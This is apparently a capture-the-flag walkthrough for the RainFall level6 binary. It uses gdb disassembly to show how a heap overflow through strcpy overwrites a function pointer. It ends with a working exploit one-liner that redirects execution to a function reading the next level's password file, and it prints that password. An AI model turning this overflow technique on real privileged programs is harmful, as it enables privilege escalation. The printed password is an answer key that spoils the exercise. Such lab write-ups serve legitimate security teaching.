

# level6

## Hint

When we log into the machine as `level6`, we notice a binary:

```shell-session
level6@RainFall:~$ ls -l
total 8
-rwsr-s---+ 1 level7 users 5274 Mar  6  2016 level6
```

We notice that the `guid` bit is set, so the executable gets the rights of its group owners granted when it is executed, and conveniently enough the group in question is our target for the current level.

That being said, it seems we need to look into the binary in order to try to understand what input it's awaiting.

The program is crashing (Segmentation Fault) when we try to run it.

```shell-session
level6@RainFall:~$ ./level6
Segmentation fault (core dumped)
```

And if we pass an argument to it, it shows:

```shell-session
level6@RainFall:~$ ./level6 test
Nope
```

Ok let's dig a bit with gdb.

## gdb

Let's see the functions first:

```gdb
gdb-peda$ info function
All defined functions:

Non-debugging symbols:
0x080482f4  _init
0x08048340  strcpy
0x08048340  strcpy@plt
0x08048350  malloc
0x08048350  malloc@plt
0x08048360  puts
0x08048360  puts@plt
0x08048370  system
0x08048370  system@plt
0x08048380  __gmon_start__
0x08048380  __gmon_start__@plt
0x08048390  __libc_start_main
0x08048390  __libc_start_main@plt
0x080483a0  _start
0x080483d0  __do_global_dtors_aux
0x08048430  frame_dummy
0x08048454  n                                               <-- Function `n`
0x08048468  m                                               <-- Function `m`
0x0804847c  main                                            <-- Function `main`
0x080484e0  __libc_csu_init
0x08048550  __libc_csu_fini
0x08048552  __i686.get_pc_thunk.bx
0x08048560  __do_global_ctors_aux
0x0804858c  _fini
```

Let's disas `main`

```gdb
gdb-peda$ disas main
Dump of assembler code for function main:
   0x0804847c <+0>:	push   ebp
   0x0804847d <+1>:	mov    ebp,esp
   0x0804847f <+3>:	and    esp,0xfffffff0
   0x08048482 <+6>:	sub    esp,0x20                        <-- Space of 32 bytes allocated for the stack frame
   0x08048485 <+9>:	mov    DWORD PTR [esp],0x40            <-- Set 64 as 1st argument to malloc()
   0x0804848c <+16>:	call   0x8048350 <malloc@plt>          <-- Call malloc(64)
   0x08048491 <+21>:	mov    DWORD PTR [esp+0x1c],eax        <-- Store the return value of malloc() to char *a
   0x08048495 <+25>:	mov    DWORD PTR [esp],0x4             <-- Set 4 as 1st argument to malloc()
   0x0804849c <+32>:	call   0x8048350 <malloc@plt>          <-- Call malloc(4)
   0x080484a1 <+37>:	mov    DWORD PTR [esp+0x18],eax        <-- Store the return value of malloc() to f *b
   0x080484a5 <+41>:	mov    edx,0x8048468		               <-- Address of function m(), as seen in previous codeblock
   0x080484aa <+46>:	mov    eax,DWORD PTR [esp+0x18]        <-- Load the address of f *b
   0x080484ae <+50>:	mov    DWORD PTR [eax],edx             <-- Store the address of function m() to f *b
   0x080484b0 <+52>:	mov    eax,DWORD PTR [ebp+0xc]         <-- Load the address of char *argv[]
   0x080484b3 <+55>:	add    eax,0x4                         <-- Add 4 to the address of char *argv[]
   0x080484b6 <+58>:	mov    eax,DWORD PTR [eax]             <-- Load the address of char *argv[1]
   0x080484b8 <+60>:	mov    edx,eax
   0x080484ba <+62>:	mov    eax,DWORD PTR [esp+0x1c]        <-- Load the address of char *a
   0x080484be <+66>:	mov    DWORD PTR [esp+0x4],edx         <-- Set the addres of char *argv[1] to the 2nd argument of strcpy()
   0x080484c2 <+70>:	mov    DWORD PTR [esp],eax             <-- Set the address of char *a to the 1st argument of strcpy()
   0x080484c5 <+73>:	call   0x8048340 <strcpy@plt>          <-- Call strcpy(a, argv[1])
   0x080484ca <+78>:	mov    eax,DWORD PTR [esp+0x18]        <-- Load the address of f *b
   0x080484ce <+82>:	mov    eax,DWORD PTR [eax]             <-- Load the address of m inside f *b
   0x080484d0 <+84>:	call   eax                             <-- Call (**b)();
   0x080484d2 <+86>:	leave
   0x080484d3 <+87>:	ret
End of assembler dump.
```

We can see that `m` and `n` are not called in the function `main` directly.

Let's disas `m`

```gdb
gdb-peda$ disas m
Dump of assembler code for function m:
   0x08048468 <+0>:	push   ebp
   0x08048469 <+1>:	mov    ebp,esp
   0x0804846b <+3>:	sub    esp,0x18                        <-- Space of 24 bytes allocated for the stack frame
   0x0804846e <+6>:	mov    DWORD PTR [esp],0x80485d1       <-- Set "Nope" as 1st argument to puts()
   0x08048475 <+13>:	call   0x8048360 <puts@plt>            <-- Call puts("Nope")
   0x0804847a <+18>:	leave
   0x0804847b <+19>:	ret
End of assembler dump.
```

And `n`

```gdb
gdb-peda$ disas n
Dump of assembler code for function n:
   0x08048454 <+0>:	push   ebp
   0x08048455 <+1>:	mov    ebp,esp
   0x08048457 <+3>:	sub    esp,0x18                        <-- Space of 24 bytes allocated for the stack frame
   0x0804845a <+6>:	mov    DWORD PTR [esp],0x80485b0       <-- Set "/bin/cat /home/user/level7/.pass" as 1st argument to system()
   0x08048461 <+13>:	call   0x8048370 <system@plt>          <-- Call system("/bin/cat /home/user/level7/.pass")
   0x08048466 <+18>:	leave
   0x08048467 <+19>:	ret
End of assembler dump.
```

Ok so we have our system() call here.

```gdb
gdb-peda$ x/s 0x80485b0
0x80485b0:	 "/bin/cat /home/user/level7/.pass"
```

Which runs the command to get the pass to level7.

## Vulnerability

It's quite obvious when ready the man for `strcpy` that there is a blatant vulnerability with using it: the fact that it does not check for the size of the buffer and instead looks for a `\0` character in order to stop the copy.

This allows us to inject a generated pattern from our favourite [website](https://wiremask.eu/tools/buffer-overflow-pattern-generator/?) in order to find the size of the buffer and continue with the exploit.

By feeding the following pattern and checking the address at which the program crashed, the generatof can deduce the size of the buffer:

```gdb
Invalid $PC address: 0x41346341
[------------------------------------stack-------------------------------------]
0000| 0xbffffb5c --> 0x80484d2 (<main+86>:	leave)
0004| 0xbffffb60 --> 0x804a008 ("Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag")
0008| 0xbffffb64 --> 0xbffffd5b ("Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag")
0012| 0xbffffb68 --> 0xb7fd0ff4 --> 0x1a4d7c
0016| 0xbffffb6c --> 0xb7e5ee55 (<__cxa_atexit+53>:	add    esp,0x18)
0020| 0xbffffb70 --> 0xb7fed280 (push   ebp)
0024| 0xbffffb74 --> 0x0
0028| 0xbffffb78 --> 0x804a050 ("Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag")
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x41346341 in ?? ()
```



We now have the size of the buffer: `72` !

All we have left to do, is overwrite the address of `m()` with the address of `n()` in the function pointer called at the end of the main function.

Just as a refresher, the functions' addresses:

```gdb
[...]
0x08048454  n                          <-- Function `n` address
0x08048468  m                          <-- Function `m` address
0x0804847c  main                       <-- Function `main` address
[...]
```

As always, we should keep in mind the endianess of the machine and write the address of `n()` in reverse so stick with the execution flow of the program.

# Exploit

```shell-session
level6@RainFall:~$ ./level6 $(python -c 'print "B"*72 + "\x54\x84\x04\x08"')
f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d
```
